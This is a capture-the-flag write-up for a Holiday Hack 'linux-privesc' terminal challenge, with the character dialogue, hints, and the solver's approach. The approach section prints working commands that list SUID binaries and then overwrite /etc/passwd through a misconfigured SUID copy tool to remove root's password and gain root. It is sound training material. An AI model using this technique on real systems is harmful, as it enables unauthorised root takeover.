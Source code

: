 <!-- report-keep -->

# linux-privesc <img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-red.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/><img src="../img/tree-outline.png" alt="drawing" width="20"/>

<!-- report-ignore -->

[< Back Home](../README.md)

<!-- report-keep -->

## Objective

Rose mold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

<!-- report-ignore -->

## Conversations

Rose Mold

Initial conversation:

- What am I doing in this saloon? The better question is: what planet are you from?
- Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.
- Whatever. Do you know much about privilege escalation techniques on Linux?
- You're asking why? How about I'll tell you why after you help me.
- And you might have to use that big brain of yours to get creative, bub.

After solving challengs:

- Yup, I knew you knew. You just have that vibe.
- To answer your question of why from earlier... Nunya!
- But, I will tell you something better, about some information I... found.
- There's a hidden, uncharted area somewhere along the coast of this island, and there may be more around the other islands.
- The area is supposed to have something on it that's totes worth, but I hear all the bad vibe toys chill there.
- That's all I got. K byyeeeee.
- Ugh... n00bs...

## Hints

- Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument.
- There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.

<!-- report-keep -->

## Approach

For this approach, I first went through the normal Linux survey commands upon connection. Nothing really stood out, so I began looking for exploits related to the Linux distro which is Linux 3a7ac2253603 5.10.0-26-cloud-amd64.
Looking for exploits, there were some viable ones, but they would have taken some work. I spent some time reviewing [this](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/). I then pivoted to looking for a way to exploit SUID executables,
and found the following:

```console
elf@408ce566d9d0:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

At first, I went down some rabbit holes trying to think of a way to exploit one of those executables, so I went on to other challenges. I then had an epiphany - what if I grabbed the /etc/passwd file, copied it, modified the copied version so root doesn't use /etc/shadow/ and then used simplecopy to copy it back to /etc/passwd?

Exploit:

```console
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *

elf@ff34bc1d8894:~$ pwd
/home/elf
elf@ff34bc1d8894:~$ ls
HELP
elf@ff34bc1d8894:~$ cp /etc/passwd passwdcopy
elf@ff34bc1d8894:~$ sed -i 's;root:x:0:0:root:/root:/bin/bash;root::0:0:root:/root:/bin/bash;g' passwdcopy
elf@ff34bc1d8894:~$ /usr/bin/simplecopy passwdcopy /etc/passwd
elf@ff34bc1d8894:~$ su
root@ff34bc1d8894:/home/elf# cd /root
root@ff34bc1d8894:~# ls
runmetoanswer
root@ff34bc1d8894:~# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

When you execute runmetoanswer, your answer is case sensitive :)

## Resources

[Linux Privilege Escalation](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/)

